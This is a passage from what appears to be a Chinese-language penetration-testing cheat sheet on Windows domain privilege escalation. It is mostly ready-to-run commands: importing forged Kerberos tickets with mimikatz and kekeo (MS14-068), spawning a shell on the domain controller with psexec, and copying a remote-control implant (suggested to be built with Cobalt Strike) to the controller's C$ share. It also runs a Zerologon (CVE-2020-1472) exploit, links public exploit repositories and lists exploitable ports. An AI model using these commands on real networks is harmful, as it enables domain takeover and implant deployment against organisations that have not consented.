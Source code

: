 使用mimikatz可以导入票据：

```shell
mimikatz.exe "kerberos::ptc TGT_temp@houkc.com.ccache" exit
```

导入完成输入以下命令查看当前导入票据：

```shell
klist
```

#### 4. psexec提权为域控的administrator账户

```shell
psexec.exe \\AdServer.houkc.com cmd
```

#### 5. 拷贝远控程序xxx.exe到根目录

```shell
copy ./xxx.exe \\AdServer.cleverbao.com\c$        # 拷贝到c盘
# 或者
copy ./xxx.exe \\AdServer.cleverbao.com\c$\users\    # 拷贝到c盘下的users目录
```

远控程序可以用cobaltstrike生成。



## 0x0d CVE-2020-1472

github上可以下载exp，也是域控提权

```shell
python exp.py houkc.com 10.10.30.30
psexec.exe \\10.10.30.30 cmd
```

参考exp如：

- [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)
- [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
- [https://github.com/risksense/zerologon](https://github.com/risksense/zerologon)



## 0x0e kekeo 域内主机提权

kekeo工具功能类似ms14-068.exe

下载链接：[https://github.com/gentilkiwi/kekeo](https://github.com/gentilkiwi/kekeo)

- 生成票据功能

```shell
kekeo.exe "exploit::ms14068 /user:[账户名] /password:[密码] /sid:[sid] /ptc" exit
# 例如：
kekeo.exe "exploit::ms14068 /user:temp /password:123456 /sid:S-x-x-xx-xxxxxxxxx-xxxxxxxxxx-xxxxxxxxxx-xxxx /ptc" exit
```

其他功能同ms14-068.exe。



## 0x0f 常见windows存在的漏洞端口

- 445 ms17-010 永恒之蓝（windows 10 以前）
- 3389 CVE-2019-0708 BlueKeep（windows7/windows2008）
- 445 ms08-067（windows2008以前）